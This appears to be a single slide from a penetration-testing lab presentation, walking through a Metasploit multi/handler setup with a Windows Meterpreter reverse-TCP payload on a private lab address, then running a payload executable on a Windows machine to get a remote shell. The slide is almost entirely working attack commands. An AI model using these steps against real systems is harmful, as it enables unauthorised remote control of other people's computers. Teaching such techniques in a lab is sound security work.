

# 3. Metasploit
Click Applications → 08 – exploitation tools → metasploit framework
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.7.129
set LPORT 4545
exploit
Now click fine2.exe on Windows
Get a shell
Run dir to show folder content
41